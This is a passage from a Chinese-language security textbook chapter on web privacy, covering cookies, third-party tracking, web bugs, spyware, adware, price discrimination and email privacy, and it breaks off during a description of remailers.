该话题显然极受关注：最近一次 Google 搜索针对 "web" 和 "privacy" 两个词组合返回了超过 70 亿条结果，针对短语 "web privacy" 返回了 634,000 条结果。

在本节中，我们将探讨用户在互联网上隐私丧失的一些方式。

#### 理解在线环境

互联网就像一个巨大的、无监管的集市。你说的每一句话都能被许多人听到。商贩的帐篷并非表面那样：香料商实为赌场老板，卖围巾的善良女子实为三个海盗兄弟和一只老虎。你伸手掏钱包，却发现钱包已被掏空。警察告诉你他们很乐意帮忙，但遗憾的是没有法律适用。买者自负，至高无上。

我们之前描述过 Web 的匿名性：两个无关方难以相互认证。互联网认证通常只确认用户身份，而非服务器身份，因此用户不确定网站是否合法。这种不确定性使得难以就私有数据的发布给予知情同意：如果你不知道把数据给谁，同意怎么能算知情？有关跟踪和互联网隐私的示例，请参见侧边栏 9-7。

***

**侧边栏 9-7 跟踪——有何限制？**

2010 年，费城附近宾夕法尼亚州的 Lower Merion 学区被发现正在在线跟踪其学生。学校可能有正当理由监控学生的互联网使用情况，例如在校期间防止儿童访问成人网站。然而在本案中，该学区发放电脑供学生带回家使用，并希望能在电脑丢失或被盗时追踪其下落。不，学校不仅仅是监控所有分配给学生的校有电脑的位置，它还通过摄像头主动监控学生的身体活动。一名学生只有在助理校长指控他在家中有不当行为并出示摄像头照片作为证据时，才得知被跟踪。（该学生声称他在吃糖果，并非吸毒。）

学区声称激活摄像头并收集静态图像仅是为了协助追踪丢失或被盗的电脑。后来曝光，学校在两年内获取了 50,000 张图像，这些图像捕捉了摄像头视野内的任何人，且未经其知情或同意。该学生家属提起诉讼，引用了《计算机欺诈和滥用法》(1986)、《电子通信隐私法》(1986) 以及多项宾夕法尼亚州法规。

学区就该事件和解了两起诉讼，赔偿约 60 万美元。FBI 决定不对学区提起指控，因为无法确立犯罪意图。（来源：*WHYY News*，2010 年 10 月 12 日。）正如该案例所示，计算机跟踪具有重要的隐私权含义。

WikiLeaks（`http://wikileaks.org`）的帖子表明，此类数据泄露并非新鲜事，但互联网的增长使其能轻松触达数百万人。

***

#### Web 支付

##### 在线支付与隐私

在线商家的客户必须能够在线支付购买费用。主要有两种基本方法：客户将信用卡信息提供给商家，或通过在线支付系统（如 `PayPal`）安排付款。

###### 信用卡支付

使用信用卡时，用户需输入信用卡号、卡片上印制的特殊号码（推测是为了证明用户实际持有该卡）、卡片有效期（确保卡片当前有效）以及信用卡账单地址（推测是为了防止信用卡被盗用）。这些保护措施均站在商家一方：它们证明商家已尽最大努力确定信用卡使用的合法性。但对客户而言，没有任何保护措施确保商家会妥善保管这些数据。一旦客户将这些信息提供给一家商家，这些相同的信息就是另一家商家接受同一张卡消费所需的全部条件。

此外，这些信息片段提供了许多静态键，可用于关联数据库。正如我们所见，姓名因拼写错误风险、呈现方式差异、截断等原因而难以处理。信用卡号则是极佳的键，因为它们只能以一种方式呈现，甚至还有一个简单的校验位来确保卡号序列有效。

借记卡也可用于在线支付。尽管其工作方式与信用卡相同，但通常不享受信用卡同等的保护；使用借记卡比信用卡风险大得多。

鉴于信用卡号被盗问题，部分银行正尝试一次性信用卡：仅可用于单笔交易或固定短期内的卡片。这样，若卡号被盗或拦截，便无法重复使用。此外，拥有多个卡号限制了将信用卡号作为键通过数据挖掘侵犯隐私的能力。

###### 支付方案

另一种网络支付方式是使用在线支付方案，如 `PayPal`。用户向 `PayPal` 支付一笔资金并获得账号和 `PIN` 码。随后可登录 `PayPal` 中心网站，提供邮箱地址和支付金额，`PayPal` 即会转账。由于在美国 `PayPal` 不受与信用卡相同的银行法规监管，其提供的消费者保护少于信用卡。然而，隐私优势在于用户的信用卡或财务详情仅 `PayPal` 知晓，从而降低被盗风险。类似方案（如 `Square`）利用手机支付。其他系统（如 `Bitcoin`）正作为独立于政府发行的虚拟货币建立。虚拟货币的价值与可行性尚待验证。

###### 网站与门户注册

许多网站要求注册才能使用。网站索取用户信息，以换取授予访问其信息和服务的权限。注册通常免费；只需选择用户 ID 和密码。报纸和网络门户（如 `Yahoo!` 或 `MSN`）尤爱采用此技术，其解释听起来令人宽慰：他们想追踪你的站内行为以优化浏览体验（无论*那*意味着什么），并能向全球需求相似的人群提供内容。实际上，网站旨在获取客户人口统计数据，随后出售给营销商或展示给广告商以证明广告投放合理性。

人们难以记住大量 ID，倾向于使用简单 ID，常为姓名变体。因记忆 ID 困难，网站让操作更简便：许多现要求以邮箱地址作为 ID。这不仅牺牲邮箱隐私，还将你的标识符（同时也是你在许多其他网站的标识符）交给网站。在多个网站使用同一 ID 的问题在于，它成为数据库键，可将不同网站原本分离的数据库合并。更糟的是，ID 或邮箱常与真实姓名紧密关联，这也将个人身份与其他收集数据关联。于是，数据聚合者可推断：V. Putin 浏览《纽约时报》网站寻找伏特加与长寿相关文章，随后购买了俄罗斯蒸馏酒厂 200 股股票。

当然，你可尝试记住多个不同 ID。或选择一次性人设，用类似 `xxxyyy` 的名字注册免费邮箱，仅用于这些强制性免费注册。且往往有需求便有服务。见 [www.bugmenot.com](http://www.bugmenot.com)，该服务为需注册的网站提供随机不可追踪的 ID 和密码。

###### 这是谁的页面？

注册原因通常与报纸或门户关系不大；而与广告商有关——他们付费使网络内容得以提供。网络提供的详细追踪可能性远超其他媒体。假设你早间看到糖果广告牌，印象持续至午餐时购买同款糖果，广告商欣喜：广告费见效。但广告商无法知晓你是否真看了广告（及看了哪个）。仅有粗略衡量：若广告活动后销量上升，活动可能有效。但广告商真想要更紧密的因果关系，且易于在网络实现。

####### 第三方广告

你访问 `Yahoo! Sports` 网页或应用，可能看到抵押贷款、银行、汽车贷款、体育杂志广告，有线电视优惠，快餐连锁折扣券。点击链接后，直接跳转“立即购买”表单或获取线下购买专属优惠券。网络广告与供应商关联更紧密：你看到广告、点击它，购买者和网页所有者均知广告吸引了你的注意。（相比之下，广告商鲜知你是看他们的高速公路广告牌还是看交通。）若点击并购买，广告真正见效。若点击后稍后出示优惠券，优惠券上的追踪号让供应商和网页所有者将你的购买与特定网站广告关联。从供应商角度看，即时反馈和可追踪性极佳。

但你愿让这些相关方知晓你喜欢篮球且在考虑二次抵押贷款吗？记住，因你已登录门户网站，他们已有可能关联你真实姓名的身份标识。此外，你很可能不只与供应商和网站打交道。许多第三方可能介入，多利用信息了解你的习惯偏好，再向你投放定向广告。

图 9-3 是本书出版商 Pearson Higher Education（培生高等教育）主页的屏幕截图。Pearson 使用追踪器、Cookie 和信标来捕获您在线行为的信息。正如 Ghostery 程序所揭示并在右上角方框中所列，Pearson 主页上有三个追踪器：用于收集和显示页面访问数据（`Google Analytics`）、允许测试不同的页面呈现方式（`Optimizely`），以及协调在独立页面上插入追踪代码（`Adobe Tag Manager`）。这些单独的调用中的每一个都可以调用来自任何站点的其他功能，因此这三个追踪器可能只是规模大得多的监控工作的冰山一角。本章稍后，我们将探讨用于追踪您在线行为的几种设备，以及使其可见并控制其活动的策略。


**图 9-3** 数据追踪通知

####### 竞赛与优惠

免费的东西很难让人抗拒。即使成功的机会微乎其微，我们也会报名参加以赢取大奖的机会。广告商知道这一点。因此，竞赛和特别优惠往往能说服人们透露私人详细信息。广告商还知道，人们当下很热情，但他们的热情和注意力会迅速消退；因此，广告商努力“快速成交”。

典型的促销活动会免费为您提供一些小东西，以诱使您承诺购买产品或服务。在安全剃须刀广告的时代，口号是“送给他们剃须刀，再卖给他们刀片”。如今，优惠更可能是“送给他们一个月的免费服务，然后自动让他们注册续订”。您只需注册，提供信用卡号（直到下个月才会扣款），即可免费使用一个月的服务。一旦您注册，信用卡号和您的姓名就成为关联您其他数据的关键。事实上，如果您是通过应用或网页访问到达供应商网站的，供应商可能已经可以利用来自转发站点的链接历史记录。因此，即使您在第一个月后取消服务，链接历史记录仍然存在，并可由链条中的许多环节共享和用于其他目的。

####### 网页冲浪预防措施

我们已经了解了为什么政府、公司和个人想要追踪您的活动并收集关于您的信息。在本节中，我们将讨论用于执行追踪和收集的一些技术：Cookie 和 Web Bug（网络漏洞/信标）。正如我们已经指出的，这些技术经常被用来在用户不知情的情况下监控活动。

###### Cookie

Cookie 是由网站放置的数据文件。它们实际上是网站所有者将其存储需求从其网站转移到用户的计算机或手机上的一种廉价方式。


Cookie 格式化为文本文件，存储在用户的计算机上，当用户访问该站点时，由用户的浏览器传递给网站。每个 Cookie 文件由访问的网站发送给您的 Web 浏览器的一对数据项组成：一个键和一个值。这对数据共同代表了访问用户与被访问网站之间会话的当前状态。键是建立 Cookie 的站点的 URL。Cookie 的值可以被视为六个字段：名称、持久数据、过期日期、要传递到的服务器上的路径、要传递到的服务器的域，以及传递 Cookie 所需的安全连接（`SSL`）。持久数据通常是加密的，是站点所有者希望保留以备将来参考的用户信息，例如，用户上一次搜索的是长茎红玫瑰。

一旦 Cookie 被放置在用户的系统上（通常在一个与其他 Cookie 同在的目录中），浏览器将继续在用户与该网站的后续交互中使用它。每个 Cookie 应该都有一个过期日期，但该日期可以设定在遥远的未来——并且稍后可以被修改，甚至被忽略。

例如，《华尔街日报》的网站 `wsj.com` 在用户首次登录时创建一个 Cookie。在后续交易中，该 Cookie 充当标识符；用户无需密码即可访问该网站。其他网站使用类似的方法。《华尔街日报》设有付费墙；如果您不是付费订阅者，就无法登录。《纽约时报》以不同的方式使用 Cookie；因为它设有部分付费墙，报纸网站使用 Cookie 来记录特定用户每月的访问次数。如果用户超过十次访问，付费墙就会弹起，不付费的用户必须等到下个月才能阅读标题以外的更多内容。

像 `Yahoo!` 这样的门户网站使用 Cookie 允许用户自定义网页的外观。假设 Sadie 希望新闻标题、天气和她的电子邮件有明亮的背景；Norman 希望股市结果、他所在地区正在上映的电影新闻以及历史上的今天发生的趣事有柔和的浅色背景。`Yahoo!` 可以将所有这些偏好信息保存在其数据库中，并轻松定制发送给这两位用户的页面。因此，Sadie 或 Norman 的偏好存储在他们的计算机上，并传回 `Yahoo!` 以帮助 `Yahoo!` 根据 Sadie 或 Norman 的偏好形成和交付网页。

一个站点可以设置任意数量的 Cookie，包含任意数量的值。如上所述，一些网站使用 Cookie 以避免客户每次访问网站都要登录；这些 Cookie 包含用户的 ID 和密码。但 Cookie 也可能包含信用卡号、客户姓名和送货地址、上次访问网站的日期、购买的商品数量或购买金额。

敏感信息，如信用卡号甚至姓名和地址，应在 Cookie 中加密或以其他方式受到保护。由网站决定或确定对其 Cookie 应用何种保护。用户永远不知道数据是否受到保护，以及如何受到保护。

路径和域字段旨在防止一个站点访问另一个站点的 Cookie。然而，正如我们在下一节所示，一家公司可以与另一家公司合作，共享 Cookie 的数据。

### 第三方 Cookie

当您访问一个站点时，其服务器会要求您的浏览器保存一个 Cookie。当您再次访问该站点时，您的浏览器会将该 Cookie 传回该站点。一般流程是从服务器到您的浏览器，稍后再从 Cookie 来源传回。网页也可以包含组织的 Cookie。因为这些 Cookie 属于网页所有者以外的组织，所以它们被称为**第三方 Cookie**。第三方追踪公司接收来自各个站点的报告，并关联数据以提供预测智能。

**第三方 Cookie 允许聚合器关联用户访问不同组织网站的信息。**

例如，`DoubleClick`（`Google` 的子公司）与一个提供内容的网站网络达成了协议：新闻、体育、美食、金融、旅游等。网络中的公司同意与 `DoubleClick` 共享数据。Geary [GEA12] 指出，`DoubleClick` 从三项活动中获利：

*   **广告投放**。`DoubleClick` 在客户网站上展示广告。
*   **广告交付**。`DoubleClick` 使广告商能够控制广告展示的频率和每次展示的持续时间。

#### 行为定向

对于某个网站所有者，发布者会设置一个 Cookie 以了解客户正在浏览网站的哪些部分。然后 DoubleClick 将广告与客户浏览习惯所显示的兴趣相匹配。但 DoubleClick 还组建了一个名为 AdSense 的部门，该部门构建了广告商网络，汇集它们收集的信息，使网络中的每个成员都能微调定向广告。

因此，从本质上讲，DoubleClick 知道你去过哪里、要去哪里，以及投放了哪些其他广告。但因为它能够读写其 Cookie，所以它可以记录所有这些信息以供将来使用。

Google 的隐私政策描述了一个通用的 DoubleClick Cookie 的样子：

*   **time**：`01/Jan/2015 12:01:00`
*   **ad_placement_id**：`103`（广告在网站上被查看位置的 ID）
*   **ad_id**：`1234`（广告的唯一 ID）
*   **userid**：`0000000000000001`（Cookie 分配给你浏览器的唯一编号）
*   **client_ip**：`123.45.67.89`
*   **referral_url**：`http://youtube.com/categories`（你看到广告的页面）

Geary 指出：“因为它记录你的 IP 地址，DoubleClick 也能很好地猜测你的国家和城镇/城市。”

以下是第三方 Cookie 可以做的其他事情的示例：

*   统计此浏览器查看特定网页的次数。
*   跟踪访问者在一个网站内或跨不同网站查看的页面。
*   统计特定广告出现的次数。
*   将网站访问与该网站的广告展示相匹配。
*   将一次购买与该人购买前查看的广告相匹配。
*   记录并报告来自搜索引擎的搜索字符串。

当然，所有这些统计和匹配活动都会产生统计数据，每当 Cookie 被激活时，Cookie 所属的网站也可以将这些数据发送回中央网站。这些收集到的数据也可发送给 Cookie 网络的任何其他合作伙伴。

为了详细了解第三方 Cookie 的工作原理，假设你访问一个个人投资页面，该页面由广告资助，包含四个股票经纪商广告的位置。我们还假设有八家可能的经纪商可以填充这四个广告位。当页面加载时，DoubleClick 读取其 Cookie，发现你以前访问过该页面，还发现你曾在过去某个时候点击过经纪商 B5 的广告或链接。基于该历史记录，DoubleClick 很可能会安排 B5 成为本次向你展示的四家经纪商之一。如果 Cookie 还显示你以前看过非常昂贵的汽车和珠宝的广告，那么 DoubleClick 也可能在另外三个位置投放全价经纪商（而非折扣经纪商）的广告。这项服务的目标是展示最有可能引起客户兴趣的广告，这符合所有人的最大利益。

但这种策略也让 DoubleClick 能够建立一份详尽的你的网络冲浪习惯档案。如果你访问在线赌博网站，然后访问一个借贷网站，DoubleClick 就知道了。如果你购买治疗高血压的草药，然后访问一个健康保险网站，DoubleClick 就知道了。DoubleClick 知道你以前在网页表单中提供过哪些个人信息，例如政治倾向、性相关事项、宗教信仰、财务或医疗状况，或身份信息。即使你不提供私人数据，仅仅打开一个政党的网页就可能让你进入该党的邀请名单和其他政党的敌人名单。这种活动被称为**在线画像**。每一条数据都可供呈现网页的单个公司使用；DoubleClick 收集并将这些单独的数据项作为一个包进行重新分发。

推测所有浏览都是匿名的。但正如我们之前所展示的，登录 ID、电子邮件地址以及保留的收货或账单详情都可以将一个人与该档案匹配，因此它不再是一串未命名的 Cookie。1999 年，DoubleClick 收购了 Abacus，另一家维护营销数据库的公司。Abacus 从目录商家收集个人购物数据；通过这次收购，DoubleClick 获得了一种方法，将以前仅是机器模式而非个人的数据与真实姓名和地址关联起来。

这些关联代表了高度可能但不确定的联系，原因有二。第一，Cookie 通常将活动与机器关联，而非用户。如果一个家庭的所有成员共用一台机器，或者客人借用该机器，表面上的关联将是虚假的。第二，因为 Cookie 将动作与浏览器关联，如果一个人使用两个或更多浏览器、账户或机器，其结果将是不完整的。你可以利用这些缺陷来指导你的规避技术。但正如隐私的许多其他方面一样，当用户不知道收集了什么数据时，他们就无法知道数据的有效性。

#### 网络 Bug：有灭绝者吗？

Cookie 是存储在你计算机上的文本文件。它们为 Cookie 的所有者存储和返回数据，但自身不会引起任何动作。但网络 Bug（在第 4 章中描述）更为隐蔽：它们是嵌入在驻留在网页上的图像中的不可见图形。有时被称为透明 GIF 或 `1 × GIF`，网络 Bug 为一像素乘一像素，用正常视力根本无法察觉。对网络浏览器而言，Bug 的大小无关紧要。图像就是图像，无论大小；浏览器将从给定地址请求一个文件，表面上是为了显示该图像。然而，该文件不限于图片；它可以包含音乐或视频，更重要的是，它可以包含可执行脚本，例如为下载的图像添加动画效果。

Cookie 和 Bug 之间的区别巨大。Cookie 是一种跟踪设备，在你的机器上存储稍后可由网络服务器读取的信息，但只能由设置该 Cookie 的服务器读取。因此，Cookie 仅揭示你在一个网站上的行为。Cookie 是被动跟踪对象，充当显示你去过哪里或做过什么的小便签。它们能收集的唯一信息是你通过在网页上输入数据或选择对象而提供给它们的信息。因为 Cookie 存储在你的机器上，你可以随意删除 Cookie，以减少后续访问时返回给网络主机的数据量。

相比之下，网络 Bug 可以调用一个可从任何位置派生的进程，并且任何 Bug 都可以调用更多的 Bug，从而调用更多代码。一个典型的广告网页可能有 20 个网络 Bug，邀请 20 个其他网站将图像、脚本或其他网络 Bug 放置到用户的机器上。正如我们在第 4 章中解释的，可执行代码可以执行调用用户允许的任何操作，例如浏览数据并将有趣的项目发送到站外。所有这些活动都在你不知情或无法控制的情况下发生。

不幸的是，灭绝并不像禁止肉眼不可见的图像那样简单，因为许多网页无害地使用此类图像来帮助对齐内容。或者某些专业的可视化应用程序可能实际上会使用微小图像集合来实现合法目的。答案不是限制图像，而是限制 Bug 可以调用的动作。然而，限制网络 Bug 也会限制内容显示的丰富性（想想动态图像、音乐、幻灯片放映，甚至动态下拉菜单）。网站，尤其是广告商，不愿放弃这种能力，因此网络 Bug 的动作不太可能受到显著限制。

正如我们在下一节将看到的，间谍软件比 Bug 或 Cookie 强大得多——也可能更危险。

### 间谍软件

#### Cookie 是被动文件，其能捕获的数据有限

例如，它们无法读取计算机的注册表、浏览电子邮件发件箱，或捕获文件目录结构。**间谍软件** 是能执行 Cookie 无法完成的所有这些操作的主动代码。通常，间谍软件能做程序能做的任何事，因为它们本质上就是程序。

间谍软件是旨在监视用户、收集数据（包括用户输入的任何内容）的代码。在本节中，我们将介绍不同类型的间谍软件。

##### 键盘记录器和间谍软件

在第 4 章中，我们描述了键盘记录器，即驻留在计算机中并记录每个按键的程序。复杂的记录器具有筛选功能，仅记录访问过的网站，甚至更严重的是，仅记录在特定网站输入的按键（例如，银行网站的登录 ID 和密码）。

键盘记录器是电话窃听器在计算机上的等价物。它是一个记录每个敲击按键的程序。正如你所想象的，键盘记录器通过获取密码、银行账号、联系人姓名和网络搜索参数，会严重危害隐私。

**间谍软件** 是一个更通用的术语，包含键盘记录器，以及那些秘密记录用户活动和系统数据的程序，尽管不一定记录到每个单独按键的级别。民主与技术中心 [CDT09] 调查了间谍软件对隐私的威胁。CDT 指出：“‘间谍软件’一词已被用于从键盘记录器、跟踪用户网页浏览的广告应用程序、网页 Cookie，到旨在帮助直接向用户提供安全补丁的程序等各种事物。最近，人们特别关注各种搭载在点对点文件共享软件和其他免费下载上的应用程序，它们以此作为进入人们计算机的途径。”CDT 报告详细讨论了“其他类似应用程序，这些应用越来越多地成为立法和监管提案的焦点。许多此类应用代表了重大的隐私威胁，但依我们之见，这些程序引发的更大担忧是透明度和用户控制权，这些问题有时在关于该议题的讨论中被忽视，并在一定程度上被‘间谍软件’这一术语本身所掩盖。”

**间谍软件收集并报告网络用户的活动。**

通用间谍软件的目的可能延伸至身份盗窃和其他犯罪活动。除了隐私影响外，键盘记录器和间谍软件有时会对计算系统产生不利影响。间谍软件并不总是经过仔细编写或测试，可能会干扰其他合法程序。此外，感染间谍软件的机器通常包含多个不同的间谍软件，它们相互冲突，导致严重的性能影响。

许多种间谍软件的另一个共同特征是难以移除。对于一款名为 **Altnet** 的间谍软件产品，移除过程至少涉及十二个步骤，包括在众多系统文件夹中定位文件 [CDT09]。

##### 劫持程序

另一类间谍软件是劫持为其他目的而安装的程序的软件。例如，文件共享软件通常用于共享音乐或电影文件的副本。ABC 新闻节目在 2006 年 [ABC06] 报道称，纳税人在使用文件共享程序后，发现他们的纳税申报单出现在了互联网上。**KaZaa**（已倒闭）和 **Morpheus** 等音乐共享服务允许用户将其存储文件的一部分提供给其他用户。根据民主与技术中心 [CDT03] 的说法，当用户安装 **KaZaa** 时，第二个程序 **Altnet** 也会被安装。**Altnet** 的文档称，它会将用户机器上未使用的计算能力提供给未指明的商业合作伙伴。**Altnet** 的许可协议授予 **Altnet** 访问和使用未使用的计算能力和存储空间的权利。在搜索引擎中搜索“**Altnet** 间谍软件”会显示数十种声称能移除 **Altnet** 的产品，以及数十篇描述移除难度的博客文章。

对于 **Altnet** 这类服务，隐私问题在于：即使用户授权使用闲置计算能力、共享文件或其他资源，用户也可能无法控制对其计算机上其他敏感数据的访问。

##### 广告软件

**广告软件** 在弹出窗口或主浏览器窗口中显示选定的广告。广告的主题和特征根据用户的偏好、描述和历史记录进行选择，浏览器或附加程序通过监控用户的计算机使用情况并将信息报告给主服务器来收集这些数据。

**广告软件** 通常作为另一款软件的一部分被安装，且不发出通知。在另一款软件冗长的用户许可协议深处，会提及“软件 X 及其扩展”，因此用户可以说是默许了广告软件的安装。文件共享软件是广告软件的常见目标，但用于通过多流同时检索大文件以实现更快下载的下载管理器也是目标。甚至声称是安全工具的产品，如杀毒代理，也被发现包含广告软件。

广告软件编写者通过让客户的广告出现在用户面前来获利，他们通过弹出窗口、覆盖合法广告的广告或占据整个屏幕表面的广告来实现这一点。更隐蔽的是，广告软件可以重新排序搜索引擎结果，使客户的产品获得更高的排名，或完全替换他人的产品。

**Zango** 是一家根据访问的网站生成弹出广告的公司。它分发安装在用户计算机上的软件，以生成弹出窗口并收集数据，告知 **Zango** 应显示哪些广告。2006 年，民主与技术中心向联邦贸易委员会投诉 **Zango**，最终指控 **Zango** 违反了《联邦贸易委员会法》：

*   欺骗性地未披露广告软件
*   不公平地安装广告软件
*   不公平地阻止卸载

多年来，哈佛大学的 Ben Edelman 等安全研究人员继续声称 **Zango** 行为不端：“**Zango** 继续采取许多可能使典型用户困惑、受骗或以其他方式受损的做法，以及专门违反 **Zango** 根据 2006 年 11 月与 FTC 达成的和解协议所承担义务的做法。”许多安全工具供应商推出了旨在卸载 **Zango** 的产品。**Zango** 的创始人于 2009 年宣布破产并关闭了公司。

##### 网上购物

网络商家声称因众多商家争夺您的业务，所以能为产品或服务提供最优价格，对吗？未必如此。间谍软件对此负有部分责任。

##### 价格歧视与在线隐私

考虑两种情况：您拥有一家销售五金产品的实体店。您的客户 Viva 非常忠诚：她在您的店里购物已有多年；她绝不会想去别处。Viva 也相当富有；她定期购买昂贵的商品，且倾向于快速购买。Joan 是一位新客户。您推测她去过其他五金店，但到目前为止，她没有从您这儿买过多少东西。Joan 正为大家庭、巨额房贷和微薄积蓄而挣扎。两位女士在同一天光顾您的店铺购买一把锤子，您通常以 20 美元出售。您给每个人报什么价？许多人说您应该给 Viva 一个优惠价格，因为她的忠诚。其他人说她的忠诚给了您获利的空间。而且她肯定买得起。至于 Joan，她有可能成为稳定客户吗？如果她去过其他地方，她是否对所有东西都货比三家？如果您用优惠价格赢得她的生意，能否说服她留下来？或者下次再来？五金店不会进行这种分析：一把 20 美元的锤子今天、明天和下周对所有人都是 20 美元，除非它在打折。

在线上则不然。请记住，在线上您看不到货架上的价格；您只能看到展示锤子的页面上向您报出的价格。除非坐在附近电脑前的人正在看同一把锤子，否则您不会知道其他人是否被提供了不同于 20 美元的价格。

根据宾夕法尼亚大学安嫩伯格公共政策中心 Joseph Turow 等人 [TUR05] 的一项研究，价格歧视正在发生，并且随着商家收集关于我们的更多信息，这种现象可能会扩大。被引用最多的例子是 Amazon.com，它同时向不同客户以表价的 30%、35% 和 40% 的折扣出售同一张 DVD。一位客户报告称，删除了他的 Amazon.com 跟踪 Cookie 后，网站上的价格从 26.00 美元*降至* 22.00 美元，因为网站认为他是新客户而不是回头客。显然，客户忠诚度不如寻找新目标有价值。Turow 的研究涉及对 1500 名美国成年人进行关于网络定价和购买问题的访谈。主要发现包括：

*   53% 的受访者正确认为，大多数在线商家不给予他们更正关于他们的错误信息的权利。
*   50% 的受访者正确认为，大多数在线商家不给予他们删除收集到的关于他们的信息的机会。
*   38% 的受访者正确认为，在线商家在同一时间向不同的人收取不同价格是合法的。
*   36% 的受访者正确认为，超市出售购买习惯数据是合法的。


- 32% 的受访者正确认为，像 Orbitz 或 Expedia 这样的比价旅游服务没有义务将找到的最低价格作为行程选项之一呈现。
- 29% 的受访者正确认为，录像店出售客户租借录像带的信息并非被禁止。

最近，David Streitfeld [STR14] 描述了 Amazon 与大型图书出版商 Hachette 之间正在进行的纠纷。“Amazon 对抗 Hachette 的策略中，有些已采用数月，包括为其书籍标价更高，并建议读者不妨改买其他作者的书。如果客户出于某种原因坚持购买 Hachette 的书，Amazon 称将需要数周才能送达。”在这种情况下，Amazon 试图迫使 Hachette 在 Amazon 网站上销售 Hachette 图书时给予 Amazon 更好的条款。

***

**网络商家没有义务为所有客户统一产品价格，也没有义务与其他销售同一产品的卖家保持一致的价格。**

***

当卖方和买方拥有完全知识时，就会形成公平市场：如果双方都能看到并认可决策的依据，双方就都知道对方是在公平交易。然而，互联网几乎没有此类规则。互联网隐私的丧失会导致知识力量的平衡强烈向商家倾斜。

### 9.6 电子邮件安全

我们在 `第 4 章` 中简要介绍了电子邮件威胁，重点关注电子邮件如何被用作传播攻击的载体。在本章中，我们再次回到电子邮件，这次分析电子邮件通信中的隐私及其缺失。

电子邮件在沿互联网从节点传输到节点的过程中通常是暴露的。此外，电子邮件的隐私可能在发送方或接收方一侧被破坏，且不发出任何警告。

考虑电子邮件与普通信件的区别。普通邮件由基于地面的邮政系统处理，根据法律（在大多数国家和大多数情况下），该系统被禁止查看信件内容。信件被密封在不透明的信封中，使外人几乎不可能看到内容。物理信封具有防篡改性，即如果有人打开，信封会显示损坏痕迹。发件人可以将信件投入任何邮筒，这使得寄信具有匿名性；信件上没有要求必须有回邮地址或签名。基于这些原因，我们对平邮有很高的隐私期望。（在历史上的某些时期，例如战时或在独裁统治者统治下，邮件会被定期检查。在这些情况下，大多数公民都知道他们的邮件不是私密的。）

但这些隐私期望在电子邮件中是不同的。在本节中，我们将探讨电子邮件隐私的现实情况。

#### 电子邮件去向何方，谁可以访问它？

我们在 `第 4 章` 中讨论了针对电子邮件的安全威胁。在本节中，我们仅关注传输电子邮件的机制，并注意其对隐私的影响。

电子邮件在概念上是点对点通信。如果 Janet 给 Scott 发送电子邮件，Janet 的计算机会与 Scott 建立虚拟连接，计算机同步，并通过某个定义明确的协议（如 `SMTP`（简单邮件传输协议））传输消息。然而，Janet 想发送消息时 Scott 可能不在线，因此发给 Scott 的消息会存储在服务器上（称为 `POP` 或邮局协议服务器）供他领取。下次 Scott 上线时，他会从服务器下载该消息。在点对点通信中，Janet 的消息是私密的；而在服务器模式下，消息在服务器上存放时可能会暴露。

Janet 可能属于一个大型组织（如公司或大学），因此她可能没有直接的出站连接；相反，她的邮件也会通过其组织的服务器路由，在那里消息的隐私可能岌岌可危。例如，一些组织明确告知员工，其服务器上的所有内容都可能被扫描或审查。

电子邮件的一个进一步复杂因素是别名和转发代理的使用，这给上述描述增加了更多中间环节。此外，互联网路由在固有的点对点概念模型中可能产生许多跳数。

最初只是 Janet 给 Scott 发邮件的简单情况，很容易涉及至少六方：(a) Janet 及其计算机，(b) Janet 组织的 `SMTP` 服务器，(c) Janet 组织的 `ISP`，(d) 连接到 Scott 的 `POP` 服务器的 `ISP`，(e) Scott 的 `POP` 服务器，以及 (f) Scott 及其计算机。目前，我们最感兴趣的是中间的四方：(b)、(c)、(d) 和 (e)。它们中的任何一方都可以记录发送事实，甚至保留消息副本。

#### 电子邮件拦截

电子邮件面临与其他网络流量相同的拦截风险：在互联网传输过程中，电子邮件对任何拦截者都是公开可读的。

***

**电子邮件从发件人到收件人的许多节点上都可能被拦截和修改。**

***

##### 电子邮件保护与隐私

在第 4 章中，我们描述了加密电子邮件的技术。特别是，`S/MIME` 和 `PGP` 是两种广泛使用的电子邮件保护程序。`S/MIME` 和 `PGP` 适用于流行的邮件处理程序，如 Outlook、Mail（来自 Apple）、Thunderbird 等。这些产品从客户端工作站经由邮件代理、跨越互联网，一直保护电子邮件到达收件人的工作站。这种保护被认为是端到端的，即从发件人到收件人。加密电子邮件保护取决于加密强度和加密协议的安全性。

虚拟专用网络（在第 6 章中描述）可以保护客户端工作站与客户所属组织的某个边缘点（通常是路由器或防火墙）之间连接上的数据。对于企业或政府雇员或大学生而言，通信仅受保护到企业、政府或大学网络的边缘。因此，使用虚拟专用网络时，电子邮件仅从发件人受保护到发件人的办公室，甚至不到达发件人的邮件代理，更不用说收件人了。

一些组织会例行复制从其计算机发送的所有电子邮件。这些副本的用途多种多样，包括将电子邮件作为法律事务中的证据，以及监控电子邮件以查找不当内容。

###### 监控电子邮件

在许多国家，公司和政府机构可以合法地监控其员工的电子邮件使用情况。同样，学校和图书馆可以监控其学生或读者的计算机使用情况。网络管理员和 `ISP` 可以出于正常业务目的监控流量，例如测量流量模式或检测垃圾邮件。组织通常必须告知用户这种监控，但通知可能只是人员手册中的一栏小字说明，或服务合同中的细则条款。组织可以将监控数据用于任何合法目的，例如调查泄密、管理资源或跟踪用户行为。

网络用户不应对其电子邮件或一般计算机使用抱有任何隐私期望。

###### 匿名、化名与阅后即焚电子邮件

我们在其他场景中描述过匿名性；匿名电子邮件也有其存在的理由。

就像电话一样，员工向管理层提供线索或投诉时可能希望匿名进行。例如，消费者可能想联系商业机构——登记投诉、咨询产品或请求信息——而不想被列入邮寄名单或成为垃圾邮件的目标。又或者，刚开始建立私人关系的人可能想传递一些信息，而不愿透露他们的完整身份或位置。出于这些及其他原因，人们希望能够发送匿名电子邮件。

免费电子邮件地址可从 Yahoo!、Microsoft Hotmail 及许多其他地方轻松获得，还有几个服务提供一次性地址。人们可以将这些地址视为一次性的：获取一个，使用一段时间，然后丢弃（通过停止使用它）。

####### 简单重发器

另一种解决方案是重发器。`remailer`（重发器）是一个受信任的第三方，你向其发送电子邮件并指明你想将邮件发给谁。重发器去除发件人的姓名和地址，分配一个匿名化名作为发件人，并将消息转发给指定收件人。第三方保存化名与真实姓名和地址之间的对应记录。如果收件人回复，重发器会移除收件人的姓名和地址，应用一个不同的匿名化名，并将消息转发给原始发件人。这种重发器同时知晓发件人和收件人，因此它提供的是化名性，而非匿名性。

####### 多重重发器

为了克服重发器知晓真实发件人和收件人身份这一问题，需要更复杂的设计。基本方法涉及一组协作的主机，有时称为 `mixmaster remailers`（混合重发器），它们同意转发邮件。每个主机发布自己的公开加密密钥。

